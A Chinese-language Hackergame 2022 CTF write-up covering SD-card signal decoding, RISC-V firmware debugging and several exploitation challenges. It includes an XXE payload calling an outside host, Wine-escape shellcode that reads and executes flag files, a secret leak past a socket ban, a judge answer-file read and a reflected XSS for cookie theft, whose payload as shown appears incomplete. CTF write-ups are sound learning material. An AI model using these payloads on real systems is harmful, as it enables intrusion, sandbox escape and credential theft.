

# 0x01 总结
大概是最后一次参加ctf比赛了，太肝了，每天下班都肝到3点。

这里记录一部分write up。

本Writeup将同时发布于[我的博客](https://lyq.blogd.club/2022/10/28/hackergame-2022-wp/)。

<!-- more -->
## 0x02 片上系统
### 引导扇区
根据`PulseView`的官方文档[File format:sigrok/v2](https://sigrok.org/wiki/File_format:Sigrok/v2)，`sigrok v2`会话文件是一个标准的 `ZIP`文件，文件后缀是`.sr`。首先将题目给的附件改名为`sdcard_data_pulseview.sr`，使用`PulseView`将其打开。

`SPI`协议有4路信号。根据很久很久以前我学的知识，我推测：时钟信号基本一直存在，所以`CLK`信号是`D1`；片选信号不经常变动，所以`CS`信号是`D0`；`Master out`先于`Slave out`，所以`MOSI`信号是`D2`，`MISO`信号是`D3`。

这里的MISO信号，即为SD卡通过SPI协议发出去的信号。

于是在`PluseView`点击`Add protocol decode`，新增一个`SD card(SPI mode)`的解码器，设置信号，即可解出SD卡通过SPI协议传出去的所有data。



右键`SPI: MISO data`，选择`Export all Annotations for this row`，将所有的`MISO`的数据导出到`MISO.txt`。


观察发现`FE`是`slave`开始传输一个`block`的标记字节，随后跟着512字节的`block`。


根据该标记将其MISO.txt分割到7个不同的bin，每个`block`512字节。
```
import re
import os

with open("./MISO.txt", "r") as f:
    lines = f.readlines()

with open("./MISO-bin", "wb") as f:
    for i in lines:
        r = re.findall("data: ([\dA-F]{2})", i)
        if r:
            f.write(bytes.fromhex(r[0]))

# 分割MISO-bin到不同的block
with open("./MISO-bin", "rb") as f:
    content = f.read()
    block_start_index = [s.start() for s in re.finditer(b"\xff\xff\xff\xfe", content)]
    
    i = 0
    for j in block_start_index:
        with open("./block"+str(i)+".bin", "wb") as f:
            f.write(content[j+4:j+4+512])
        i += 1

os.system("rm ./MISO-bin")
```

第0个bin：`block0.bin`，就是SD卡第一个扇区里面保存的`"bootloader"`了，将其`strings`一下，即可查看flag。
```
$ strings block0.bin      
flag{0K_you_goT_th3_b4sIc_1dE4_caRRy_0N}                                 
```

### 操作系统
那么1-7个block就是所谓的"操作系统了"，将其组装起来：
```
$ echo -n > ./elf
$ for i in {1..6}
do
cat block$i.bin >> ./elf
done
```

根据题目提示，这是一个RISC-V指令集的程序，所以使用qemu将其模拟润（不是）起来。
```
$ qemu-system-riscv32 -m 4G -nographic -machine virt -kernel elf -bios none  -s -S
```

然后使用交叉编译工具链提供的gdb挂上去。

```
$ riscv-none-elf-gdb
(gdb) target remote localhost:1234
Remote debugging using localhost:1234
warning: No executable has been specified and target does not support
determining executable automatically.  Try using the "file" command.
0x00001000 in ?? (
```

qnum模拟器固件加载在`0x1000`处，并且默认将`elf`加载到`0x80000000`，通过`0x1014`处的指令跳转到`0x80000000`，但是通过反汇编`bootloader`，我们可以看到，`elf`本来加载的地址应该是`0x20001000`。`bootloader`的最后一段指令如下：
```
; 读完跳转执行0x20001000，也就是"操作系统"被加载到地址0x20001000处
0x80000090:  lui     t0,0x20001  
0x80000094:  jr      t0
0x80000098:  ret
```

所以通过gdb的`restore`将`elf`恢复到内存`0x20001000`处。
```
restore /mnt/shared/SoC/elf binary 0x20001000
```

再设置把跳转地址从`0x80000000`设置到`0x20001000`：
```
set {int}0x1018=0x20001000
```

可以愉快的开始调咯，我当场边学`RISC-V`指令集边阅读反汇编代码，发现往`0x93000000`这个地址里面写了数次字符串，包括`"LED: ON"`，`"Memory OK"`，`"Video outputed"`，`"flag{"`，`"}"`，很明显这就是写入串口所使用的地址。挑出写`"LED: ON"`的汇编出来看看：
```
   0x200010bc:  addi    a3,a3,1093        ; a3 -> "ED: ON..."
   0x200010c0:  li      a2,76             ; a2 = 76 = 'L'

   0x200010c4:  lw      a5,0(a4)          ; 从 0x93000008 读取到a5                     ; 估计是串口ok的标识？
   0x200010c8:  beqz    a5,0x200010c4     ; if a5 == 0 goto 0x200010c4                ; 一直到a5等于0才继续往下走
   0x200010cc:  sw      a2,0(a6)          ; 将a2写入到0x93000000地址里  初始值是'L' 然后是 "ED: ON"   ; 很明显这是串口输出

   0x200010d0:  lw      a5,0(a4)          ; 从 0x93000008 读到a5
   0x200010d4:  beqz    a5,0x200010d0     ; 估计是串口ok的标识？
   
   0x200010d8:  addi    a3,a3,1           ; a3 = a3 + 1  初始值 指向 "D: ON.."
   0x200010dc:  lbu     a2,-1(a3)         ; a2 = a2 - 1  初始值 指向 "ED: ON.."
   0x200010e0:  bnez    a2,0x200010c4     ; 循环打印字符
```

一翻阅读，发现我们只需要关注下面的指令即可，因为这段指令夹在串口输出`"flag{"`和`"}"`中间，这里当然就是通过串口输出flag中间部分的指令。
```
   0x20001328:  lui     a0,0x20001
   0x2000132c:  addi    a0,a0,24          ; a0 = a0 + 24 = 0x20001018
   0x20001330:  jal     ra,0x20001018     ; 输出flag中间的部分 20001018

   0x20001334:  lui     a0,0x20001
   0x20001338:  lui     a5,0xdeadc
   0x2000133c:  addi    a5,a5,-273
   0x20001340:  addi    a0,a0,108
   0x20001344:  xor     a0,a0,a5
   0x20001348:  jal     ra,0x20001018     ; 输出flag中间的部分 feadae83
   0x2000134c:  li      a0,224
   0x20001350:  jal     ra,0x20001018     ; 输出flag中间的部分 000000e0
   0x20001354:  lw      a3,1176(s1)
   0x20001358:  lw      a2,1180(s0)
```

上面的指令跳转了`0x20001018`三次，分三个部分将flag的中间部分通过串口输出，我不想再思考`0x20001018`处的指令的具体逻辑了，反正只要知道`0x20001018`会走到`0x20001054`：
```
   0x20001054:  sw      a3,0(a7)
```
而`0x20001054`这里和上面输出`"LED: ON"`到串口的`0x200010cc`如出一辙，`a7`是串口的地址`0x93000000`，`a3`是要写的字符。所以把断点断在`0x20001054`，将`a3`寄存器循环打印出来，即可获取flag中间部分。

当然，手动`break`然后`p`，也太憨了。这里使用gdb脚本，一键打出flag。

如下所示，这里在运行时对内存做了一点小小的patch，不然跑飞。
```
# (gdb) source load_elf.gdb 
# (gdb) load_elf
define load_elf
    set confirm off
    target remote localhost:1234
    # 加载二进制到指定内存
    restore /mnt/shared/SoC/elf binary 0x20001000
    # 设置跳转地址
    # 从0x1014跳转到0x20001000 而不是默认的0x80000000执行
    set {int}0x1018=0x20001000
    # bypass 对0x93000008的检查
    set {int}0x93000008=1
    # 断在内存初始化前面
    b *0x200010f0
    c
    # 不进行内存初始化 因为我测试中跑飞了
    set $pc=0x20001164
    # 输出"flag{"之后 会jmp 0x20001018
    # 把断点断在串口写入那里 也就是0x20001054
    # 然后打印要往串口写的字符即可
    b *0x20001054
    set $i = 0
    # 循环print 存放在a3寄存器里的字符（即要打印的字符）
    while($i<24)
        c
        p/c $a3
        set $i = $i + 1
    end
    # 20001018feadae83000000e0
end
```

运行方法：

终端1:
```
$ qemu-system-riscv32 -m 4G -nographic -machine virt -kernel elf -bios none  -s -S
```

终端2:
```
$ riscv-none-elf-gdb
GNU gdb (xPack GNU RISC-V Embedded GCC x86_64) 12.1
...
(gdb) source load_elf.gdb 
(gdb) load_elf
warning: No executable has been specified and target does not support
determining executable automatically.  Try using the "file" command.
0x00001000 in ?? ()
Restoring binary file /mnt/shared/SoC/elf into memory (0x20001000 to 0x20001c00)
Breakpoint 1 at 0x200010f0

Breakpoint 1, 0x200010f0 in ?? ()
Breakpoint 2 at 0x20001054

Breakpoint 2, 0x20001054 in ?? ()
$1 = 50 '2'

Breakpoint 2, 0x20001054 in ?? ()
$2 = 48 '0'

Breakpoint 2, 0x20001054 in ?? ()
$3 = 48 '0'

Breakpoint 2, 0x20001054 in ?? ()
$4 = 48 '0'

Breakpoint 2, 0x20001054 in ?? ()
$5 = 49 '1'

Breakpoint 2, 0x20001054 in ?? ()
$6 = 48 '0'

Breakpoint 2, 0x20001054 in ?? ()
$7 = 49 '1'

Breakpoint 2, 0x20001054 in ?? ()
$8 = 56 '8'

Breakpoint 2, 0x20001054 in ?? ()
$9 = 102 'f'

Breakpoint 2, 0x20001054 in ?? ()
$10 = 101 'e'

Breakpoint 2, 0x20001054 in ?? ()
$11 = 97 'a'

Breakpoint 2, 0x20001054 in ?? ()
$12 = 100 'd'

Breakpoint 2, 0x20001054 in ?? ()
$13 = 97 'a'

Breakpoint 2, 0x20001054 in ?? ()
$14 = 101 'e'

Breakpoint 2, 0x20001054 in ?? ()
$15 = 56 '8'

Breakpoint 2, 0x20001054 in ?? ()
$16 = 51 '3'

Breakpoint 2, 0x20001054 in ?? ()
$17 = 48 '0'

Breakpoint 2, 0x20001054 in ?? ()
$18 = 48 '0'

Breakpoint 2, 0x20001054 in ?? ()
$19 = 48 '0'

Breakpoint 2, 0x20001054 in ?? ()
$20 = 48 '0'

Breakpoint 2, 0x20001054 in ?? ()
$21 = 48 '0'

Breakpoint 2, 0x20001054 in ?? ()
$22 = 48 '0'

Breakpoint 2, 0x20001054 in ?? ()
$23 = 101 'e'

Breakpoint 2, 0x20001054 in ?? ()
$24 = 48 '0'
(gdb) 
```

flag为`flag{20001018feadae83000000e0}`。

## 0x03 猜数字
### XXE
这里是存在XXE漏洞的，但是java版本有点高，`/proc/self/environ`中有`\0`，所以无法通过`http`或者`ftp`协议把java进程环境变量带出来。

于是我尝试这个办法，payload长这样：
```
<?xml version="1.0" ?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "http://x.x.x.x:8080/result">
]>
<state><guess>&xxe;</guess></state>
```

服务端收到这个xml后，会解析xml，然后向url：`http://x.x.x.x:8080/result`发起http请求（`SSRF`），这个请求会返回`plain txt`，被作为guess的值。

这里让运行在`x.x.x.x:8080/result`的服务器不回复，所以服务端会有1个线程卡在这里：
```
var newState = oldState.update(XML_INPUTS.createXMLEventReader(stream, "UTF-8"));
```

此时，运行在`x.x.x.x:8080/result`的服务器，去爆破获得guess的值，也就是上面的`oldState`的解。获得解之后`x.x.x.x:8080/result`回复解，卡住的线程继续走，获得正确答案，随后`oldState`会判定为第一次猜测，new出一个通过的`newState`。

但是，`replaced = STATES.replace(token, oldState, newState);`，这里使用了全局的map `STATES`，token对应的`State`在`x.x.x.x:8080/result`的爆破过程中已经被替换掉了，之前卡住的线程的无法将`通过`的`newState`写入到map里，因为`oldState`在map中已经不存在了。

所以通过XXE get flag的方法还是没走通。

### 常规解
```
var guess = NaN;
var isLess = guess < this.number - 1e-6 / 2;    // false
var isMore = guess > this.number + 1e-6 / 2;    // false
```

## 0x04 杯窗鹅影
根据[Attacking applications running under WINE (Part I)](https://schlafwandler.github.io/posts/attacking-wine-part-i/)这篇博客。可以得知，wine不是模拟器，而是添加了一层转换层，会将windows api转换成宿主机的api，达到运行windows exe的目的。  

所以wine运行exe时，如果exe中有目标为`宿主机平台`的shellcode，是可以直接执行的！

编写如下的汇编代码，主要作用是读取文件`/flag1`获得flag1，然后调用execve系统调用，execve `/flag2`获得flag2。

```
global _start
_start:
; flag1
    sub esp, 0xff
    mov eax, 0x616c662f
    mov [esp], eax
    mov eax, 0x00003167
    mov [esp+4], eax

    mov eax, 0x5    ; open
    xor ecx, ecx    ; flags
    xor edx, edx    ; mode
    mov ebx, esp    ; filename
    int 0x80
    add esp, 0xff

    mov ebx, eax    ; fd
    mov eax, 0x3    ; read
    mov edx, 0xFF   ; count
    sub esp, 0xff   ; buffer
    mov ecx, esp
    int 0x80

    mov edx, eax    ; count
    mov eax, 0x4    ; write 
    mov ebx, 0x2    ; fd
    mov ecx, esp    ; buffer
    int 0x80
    add esp, 0xff

; flag2
    sub esp, 0xff
    mov eax, 0x6165722f
    mov [esp], eax
    mov eax, 0x616c6664
    mov [esp+4], eax
    mov eax, 0x00000067
    mov [esp+8], eax

    mov eax, 0xb    ; execve 
    mov ebx, esp    ; filename
    xor ecx, ecx    ; argv
    xor edx, edx    ; envp
    int 0x80
    add esp, 0xff

    ret
```

将其编译，并提取字节码：
```
#!/bin/bash
nasm -f elf32 -o shellcode.o shellcode.asm
ld -melf_i386 -o shellcode shellcode.o
objdump -d shellcode | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d ' '| tr -s ' '| tr '\t' ' '| sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
```

放到main.c里：
```
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] = "\x81\xec\xff\x00\x00\x00\xb8\x2f\x66\x6c\x61\x89\x04\x24\xb8\x67\x31\x00\x00\x89\x44\x24\x04\xb8\x05\x00\x00\x00\x31\xc9\x31\xd2\x89\xe3\xcd\x80\x81\xc4\xff\x00\x00\x00\x89\xc3\xb8\x03\x00\x00\x00\xba\xff\x00\x00\x00\x81\xec\xff\x00\x00\x00\x89\xe1\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x02\x00\x00\x00\x89\xe1\xcd\x80\x81\xc4\xff\x00\x00\x00\x81\xec\xff\x00\x00\x00\xb8\x2f\x72\x65\x61\x89\x04\x24\xb8\x64\x66\x6c\x61\x89\x44\x24\x04\xb8\x67\x00\x00\x00\x89\x44\x24\x08\xb8\x0b\x00\x00\x00\x89\xe3\x31\xc9\x31\xd2\xcd\x80\x81\xc4\xff\x00\x00\x00\xc3";

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{

    LPVOID buffer = VirtualAlloc(NULL, 8192, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memset(buffer, 0, 8192);

    void (*pcode)() = (void (*)())buffer;

    memcpy(buffer, shellcode, sizeof(shellcode));
    pcode();

    return 0;
}
```
编译上传，即可获得flag。

## 0x05 看不见的彼方

这里分析源码，发现socket系统调用虽然被ban了，但是我们还有消息队列呀，两个进程只要使用同一个key即可访问同一个消息队列。

A.c将secret放到消息队列里：
```
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <sys/msg.h>
#include <errno.h>
 #include<fcntl.h>

#define MAX_TEXT 512
struct msg_st
{
	long int msg_type;
	char text[MAX_TEXT];
};
 
int main()
{
	struct msg_st data;
	char buffer[BUFSIZ];
	int msgid = -1;
 
	//建立消息队列
	msgid = msgget((key_t)1234, 0666 | IPC_CREAT);
	if(msgid == -1)
	{
		fprintf(stderr, "msgget failed with error: %d\n", errno);
		exit(EXIT_FAILURE);
	}
 
    int fd = open("secret", O_RDONLY);
    while(read(fd, buffer, sizeof(buffer))>0)
    {
    }
		
    data.msg_type = 1;
    strcpy(data.text, buffer);
    //向队列发送数据
    if(msgsnd(msgid, (void*)&data, MAX_TEXT, 0) == -1)
    {
        fprintf(stderr, "msgsnd failed\n");
        exit(EXIT_FAILURE);
    }

	exit(EXIT_SUCCESS);
}
```

B.c从消息队列里取secret：
```
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <errno.h>
#include <sys/msg.h>
 
struct msg_st
{
	long int msg_type;
	char text[BUFSIZ];
};
 
int main()
{
	struct msg_st data;
	int msgtype = 0;
 	int msgid = -1;

	//建立消息队列
	msgid = msgget((key_t)1234, 0666 | IPC_CREAT);
	if(msgid == -1)
	{
		fprintf(stderr, "msgget failed with error: %d\n", errno);
		exit(EXIT_FAILURE);
	}
	
	sleep(1);
	if(msgrcv(msgid, (void*)&data, BUFSIZ, msgtype, 0) == -1)
	{
		fprintf(stderr, "msgrcv failed with errno: %d\n", errno);
		exit(EXIT_FAILURE);
	}
	printf("%s",data.text);
        
	// [todo] 删除消息队列
	exit(EXIT_SUCCESS);
}
```
编译上传，即可获得flag。

## 0x06 安全的在线测评
### 无法 AC 的题目
分析源码发现，第一题的输入在文件`./data/static.in`中，答案在文件`./data/static.out`中，题目暗示第一题输入数据会泄漏。

尝试读取`./data/static.out`，发现`runner`用户可读，那么直接读答案然后输出就好了。

```
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
    int b = 1;
    FILE * flag;
    flag = fopen("./temp/flag", "r");
    if (flag == NULL) {
        system("touch ./temp/flag");
        b = 0;
    }
    
    FILE * fp;
    char * line = NULL;
    size_t len = 0;
    ssize_t read;

    if (b == 0) {
        fp = fopen("./data/static.out", "r");
        if (fp == NULL) {
            exit(EXIT_FAILURE);
        }

        while ((read = getline(&line, &len, fp)) != -1) {
            printf("%s", line);
        }

        fclose(fp);
        if (line)
            free(line);

        // system("touch ./data/static.out");
    }
    else {
        if (fopen("./data/static.out", "r") != NULL) {
            exit(EXIT_SUCCESS);
        }
        else {
            exit(EXIT_FAILURE);
        }
    }
    exit(EXIT_SUCCESS);
}
```

### 动态数据
看了半天，不会。

## 0x07 企鹅拼盘
### 这么简单我闭眼都可以！
分析题目，输入4个比特，有16步，每1步对应2个操作序列，根据4个比特中的某1个比特，决定2个选择操作序列中的哪一位。走到某一步，若拼盘复原，则失败。

所以第1问有2^4种情况，可选答案为0到16，本地模拟即可解。

### 大力当然出奇迹啦~
分析题目，输入16个比特，有256步，每1步对应2个操作序列，根据4个比特中的某1个比特，决定2个选择操作序列中的哪一位。走到某一步，若拼盘复原，则失败。

所以第2问有2^16种情况，可选答案为0到65535，本地模拟即可解。

### 1和2问的解
将程序魔改，选择难度之后，按T会遍历0到65535作为答案，若某个答案跑完了，且拼盘是弄乱的，则为正确答案，抛出异常并结束程序，悠闲的打开logs.log，即可查看flag。
```
...

    def watch_pc(self, index):
        logger.info("watch_pc run, self.inbits: {} ".format(self.inbits))

        self.board.reset()
        for branch in self.branches[:index]:
            self.board.move(branch[1] if self.inbits[branch[0]] else branch[2])
        for i in range(16):
            self.blocks[i].set_i(self.board.b[i//4][i % 4])
        
        self.info.set_info({'bT': self.branches[index][1] if index < len(self.branches) else '',
                            'bF': self.branches[index][2] if index < len(self.branches) else '',
                            'inbits': self.inbits,
                            'ib': self.branches[index][0] if index < len(self.branches) else -1,
                            'scrambled': bool(self.board),
                            'pc': index,
                            'lb': len(self.branches),
                            'hl': -1})
        
        // 注意  魔改点1！
        if bool(self.board) and index == len(self.branches) and len(self.inbits) > 0 and not (index < len(self.branches)):
            logger.info("we got ans: {}".format(''.join([str(elem) for elem in self.inbits])))
            raise ValueError('Bye-bye textual')

    async def on_load(self, event: events.Load):
        """Bind keys with the app loads (but before entering application mode)"""
        await self.bind("q", "quit", "Quit")
        await self.bind("r", "reset", "Reset")
        await self.bind("u", "prev", "Undo")
        await self.bind("e", "next", "Execute")
        await self.bind("l", "last", "ExecuteAll")
        // 注意  魔改点2！
        await self.bind("t", "traverse_inbits", "TraverseInbits")

    // 注意  魔改点3！
    async def action_traverse_inbits(self):
        max_ans = pow(2, int(self.bitlength)) - 1
        for i in range(0, max_ans):
            self.inbits = list(map(int, ("{0:0"+str(self.bitlength)+"b}").format(i)))
            logger.info("self.pc: {}, self.num: {}, self.inbits: {}".format(self.pc, self.num, self.inbits))
            self.num += 1
            self.watch_pc(len(self.branches))

...

```
### 这个拼盘。。能靠掀桌子弄乱吗？
数学题，理不直气也壮的不会。

## 0x07 家目录里的秘密
解压全局搜索flag，即可获得`VS Code里的flag`。

再搜索rclone相关文件，发现rclone的配置文件里面有个可疑的密码，根据`https://forum.rclone.org/t/how-to-retrieve-a-crypt-password-from-a-config-file/20051`，解密该密码，即可获得`Rclone里的flag`。

## 0x08 微积分计算小练习
练习网站存在XSS漏洞，随便乱填一个练习，获得url：`http://202.38.93.111:10056/share?result=MDph`，分析html源码，发现前端会将`result`的值进行`base64`解码(`echo -n MDph | base64 -d`)，获得`user:sorce`格式的字符串，然后用`:`分割用户名和成绩，分别渲染到`"greeting"`和`"score"`中，所以我们可以控制`result`进而控制前端页面，典型的`反射型XSS`。

再分析一下`bot.py`，它是在后端运行的，使用了`selenium`框架提供的`webdriver`模拟了一个浏览器，然后给浏览器设置了`cookie`，`cookie`
的值是flag。

所以我们构造如下`payload`，期望在前端弹出一个`alert`，将`cookie`弹出来。
```
result=$(echo -n "0:" | base64)
echo "http://202.38.93.111:10056/share?result=$result"
```

将其提交，由于无头浏览器不支持弹窗，触发异常，异常描述里，即可获得flag。
